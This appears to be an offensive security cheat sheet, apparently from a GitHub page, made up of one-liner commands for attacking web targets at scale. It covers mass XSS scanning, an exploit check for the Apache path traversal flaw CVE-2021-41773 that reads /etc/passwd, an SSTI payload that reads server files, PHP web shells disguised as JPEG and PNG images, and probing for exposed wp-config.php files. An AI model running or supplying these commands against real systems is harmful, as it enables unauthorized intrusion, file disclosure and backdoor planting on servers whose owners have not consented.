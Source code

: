 ## Find Cross-Site Scripting (XSS) at Scale

### XSStrike

> https://github.com/s0md3v/XSStrike

> https://github.com/lc/gau

> https://github.com/projectdiscovery/katana

```c
$ echo <DOMAIN> | gau | while read url; do python3 xsstrike.py -u $url --crawl -l 4 -d 5; done
$ echo <DOMAIN> | katana | while read url; do python3 xsstrike.py -u $url --crawl -l 4; done
```

```c
$ subfinder -d <DOMAIN> -all -silent | httpx -silent | katana -silent | Gxss -c 100 | dalfox pipe --skip-bav --skip-mining-all --skip-grepping
```

## Fingerprinting with Shodan and Nuclei

```c
$ shodan domain <DOMAIN> | awk '{print $3}' | httpx -silent | nuclei -t /PATH/TO/TEMPLATES/nuclei-templates/
```

## Path Traversal Zero-Day in Apache HTTP Server (CVE-2021-41773)

```c
$ cat <FILE>.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
```

## Server-Side Template Injection (SSTI) at Scale

```c
$ echo "<DOMAIN>" | subfinder -silent | waybackurls | gf ssti | qsreplace "{{''.class.mro[2].subclasses()[40]('/etc/hostname').read()}}" | parallel -j50 -q curl -g | grep  "root:x"
```

## Web Shell / Malicious Images

```c
$ echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > <FILE>.jpg
$ echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > <FILE>.png
```

## Wordpress Configuration Disclosure

```c
$ subfinder -silent -d http://<DOMAIN> | httpx -silent -nc -p 80,443,8080,8443,9000,9001,9002,9003,8088 -path "/wp-config.PHP" -mc 200 -t 60
```
